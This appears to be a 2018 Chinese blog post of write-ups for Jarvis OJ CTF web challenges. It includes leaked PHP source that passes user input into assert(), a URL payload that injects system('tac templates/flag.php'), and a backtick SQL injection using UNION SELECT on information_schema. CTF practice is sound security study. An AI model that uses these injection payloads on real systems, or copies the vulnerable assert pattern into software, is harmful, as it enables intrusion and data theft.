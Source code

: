 title: jarvis oj web
author: Qianye
abbrlink: d4a99024
tags:
  - ctf
categories: []
date: 2018-03-09 21:00:00
---

[jarvis oj](https://www.jarvisoj.com/) 挺不错的ctf平台，有点难。



# babyxss
[某大佬的解](http://blog.csdn.net/qq_31481187/article/details/73699167)

# basyphp
从about中猜测是有git源码泄露，用githacker，得到泄露部分
```bash
<?php
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}
$file = "templates/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
assert("file_exists('$file')") or die("That file doesn't exist!");
?>
```
从源码中知道有命令执行漏洞，构造

```bash
http://web.jarvisoj.com:32798/?page=?page='.system("tac templates/flag.php").'
```
# register
二次注入

# inject 
输入index.php~
```bash
http://web.jarvisoj.com:32794/index.php~
```
得到源码
```bash
<?php
require("config.php");
$table = $_GET['table']?$_GET['table']:"test";
$table = Filter($table);
mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
$sql = "select 'flag{xxx}' from secret_{$table}";
$ret = sql_query($sql);
echo $ret[0];
?>

```
在desc `secret_test` `表名`
只要第一组反引号中的表名存在，第二组反引号中随便写都不会报错.</br>
爆数据库
```bash
http://web.jarvisoj.com:32794/?table=test` `union select GROUP_CONCAT(schema_name) from information_schema.schemata limit 1,1
```